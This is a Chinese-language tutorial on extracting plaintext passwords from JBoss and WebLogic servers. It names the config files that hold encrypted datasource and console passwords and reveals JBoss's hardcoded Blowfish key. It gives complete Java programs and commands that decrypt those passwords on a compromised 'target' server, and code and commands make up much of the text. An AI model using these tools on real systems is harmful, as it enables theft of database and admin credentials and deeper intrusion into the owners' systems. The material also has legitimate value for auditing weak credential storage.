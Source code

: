 # 解密JBoss和Weblogic数据源连接字符串和控制台密码

### 0x00 背景

* * *

现在越来越多的站喜欢用java语言的框架做web应用了，这里应用有很多大型站点经常采用jboss或者weblogic做web服务器。出于安全原因，他们都提供把数据源连接密码以及web服务器后台密码加密的功能，jboss用的是blowfish，weblogic旧版的加密算法一般为3DES，新版的则都是AES。

这几种加密算法都是可逆的，因为在web服务器连接到数据库的时候还是要把密码解密成明文之后发过去或者和challenge运算的，所以我们有了两个突破口，第一个就是，解密后的明文密码必然保留在内存中，如果把web服务器的内存空间dump下来分析是肯定可以找到明文密码的，这个方法在前段时间hip发的memory forensic文章里有涉及到。第二个方法就是，调用服务器程序自身的解密函数，让它把明文echo出来。

### 0x01 JBoss解密

* * *

jboss的数据库连接密码一般存在

```
%JBOSS_HOME%\server\%appname%\deploy

```

下面的各种xml里面，比如oracle的是oracle-ds.xml,mysql是mysql-ds.xml…… 在没有加密的情况下，密码是这么保存的：

```
<jndi-name>OracleDS</jndi-name>   //jndi名字
<use-java-context>false</use-java-context>
<connection-url>jdbc:oracle:thin:@localhost:1521:orcl</connection-url>  //URL地址
<driver-class>oracle.jdbc.driver.OracleDriver</driver-class>  //驱动
<user-name>root</user-name>    //用户名
<password>123456</password>  //密码

```

在配置完密码加密后，这个文件里要么没有username和password，要么被comment掉了。下面多了个EncryptDBPassword  
加密后的密码存在jboss目录的conf/login-config.xml文件里：

```
<application-policy name="EncryptDBPassword">
    <authentication>
        <login-module code="org.jboss.resource.security.SecureIdentityLoginModule" flag="required">
            <module-option name="username">admin</module-option>
            <module-option name="password">5dfc52b51bd35553df8592078de921bc</module-option>
            <module-option name="managedConnectionFactoryName">jboss.jca:name=PostgresDS,service=LocalTxCM</module-option>
        </login-module>
    </authentication>
</application-policy>

```

5dfc52b51bd35553df8592078de921bc就是加密后的密文了，有的时候前面还有个符号，也是密文的一部分。

jboss用来加密的key是明文硬编码在jboss源码里的，key是jaas is the way

解密过程：

找个能编译java的环境或者在线的java编译执行网站：编译以下代码：

```
import java.math.BigInteger;

/*
* JBoss.java - Blowfish encryption/decryption tool with JBoss default password
*    Daniel Martin Gomez <daniel @ ngssoftware.com> - 03/Sep/2009
*
* This file may be used under the terms of the GNU General Public License
* version 2.0 as published by the Free Software Foundation:
*   http://www.gnu.org/licenses/gpl-2.0.html
*/
import javax.crypto.*;
import javax.crypto.spec.SecretKeySpec;


public class JBoss {
    public static void main(String[] args) throws Exception {
        if ((args.length != 2) ||
                !(args[0].equals("-e") | args[0].equals("-d"))) {
            System.out.println(
                "Usage:\n\tjava JBoss <-e|-d> <encrypted_password>");

            return;
        }

        String mode = args[0];

        byte[] kbytes = "jaas is the way".getBytes();
        SecretKeySpec key = new SecretKeySpec(kbytes, "Blowfish");
        Cipher cipher = Cipher.getInstance("Blowfish");

        String out = null;

        if (mode.equals("-e")) {
            String secret = args[1];
            cipher.init(Cipher.ENCRYPT_MODE, key);

            byte[] encoding = cipher.doFinal(secret.getBytes());
            out = new BigInteger(encoding).toString(16);
        } else {
            BigInteger secret = new BigInteger(args[1], 16);
            cipher.init(Cipher.DECRYPT_MODE, key);

            byte[] encoding = cipher.doFinal(secret.toByteArray());
            out = new String(encoding);
        }

        System.out.println(out);
    }
}

```

编译后执行，用 -d参数解密，比如

```
java JBoss -d 5dfc52b51bd35553df8592078de921bc

```

就会返回明文密码。

### 0x02 Weblogic解密

* * *

weblogic要稍微复杂一些，jboss的加密函数是java代码里面的，但是weblogic是自己写的，所以解密程序也需要调用weblogic的代码包。WebLogic 11gR1后采用了AES的加密方式，之前的版本采用的DES加密方式。另外，每个Weblogic app的加密key都是随机生成的，所以不同服务器甚至同服务器不同应用上的weblogic都是用不同的密码加密的，这一点上比jboss安全很多。但是，毕竟连数据库的时候还是要还原，所以还是可以解密的。解密过程如下：

加密key都保存在securitySerializedSystemIni.dat 文件中,比如

weblogic安装目录

```
\user_projects\domains\APPNAME\securitySerializedSystemIni.dat  

```

有些版本是放到security目录里的，一个应用里面只会有一个这个文件，find一下就找到了。

找到后把它复制到其他的文件夹，比如\tmp下面

在这个文件夹下新建一个java文件，Decrypt.java，名字不能错，必须和内容的class名字一样。

```
import weblogic.security.internal.*;
import weblogic.security.internal.encryption.*;

import java.io.PrintStream;


public class Decrypt {
    static EncryptionService es = null;
    static ClearOrEncryptedService ces = null;

    public static void main(String[] args) {
        String s = null;

        if (args.length == 0) {
            s = ServerAuthenticate.promptValue("Password: ", false);
        } else if (args.length == 1) {
            s = args[0];
        } else {
            System.err.println("Usage: java Decrypt [ password ]");
        }

        es = SerializedSystemIni.getExistingEncryptionService();

        if (es == null) {
            System.err.println("Unable to initialize encryption service");

            return;
        }

        ces = new ClearOrEncryptedService(es);

        if (s != null) {
            System.out.println("\nDecrypted Password is:" + ces.decrypt(s));
        }
    }
}

```

根据目标的操作系统，在weblogic目录中找到setWLSEnv.cmd 或者 setWLSEnv.sh 并且执行。执行后会出来一长串环境变量，分别是CLASSPATH和PATH。但是有些情况下这些环境变量没有加进去，所以还需要执行一下(linux下，windows一般不会出现这个情况)

```
export $CLASSPATH  

```

如果这个命令执行完也出来一串东西，那就说明环境变量设置正确，如果没有的话，则需要在shell里手动执行。把之前执行setWLSEnv.sh出来的两个环境变量分别复制然后 export一下就行。再执行以下export $CLASSPATH确认是否加上了。成功后就可以进行下一步了。

weblogic的数据库字符串一般存在weblogic下面应用目录的conf里面，也是xml格式，加密后的密码格式为

```
{AES}JBkrUhrV6q2aQDnPA2DWnUuZWLxzKz9vBMFfibzYAb8=

```

或者

```
{3DES}JBkrUhrV6q2aQDnPA2DWnUuZWLxzKz9vBMFfibzYAb8=  

```

到之前放Decrypt.java的目录执行 javac Decrypt.java 然后执行 java Decrypt 加密后密码，比如

```
java Decrypt {AES}JBkrUhrV6q2aQDnPA2DWnUuZWLxzKz9vBMFfibzYAb8=  

```

执行完后就会告诉你 Decrypted Password is : weblogic

weblogic的控制台密码也是用同样的方式加密的。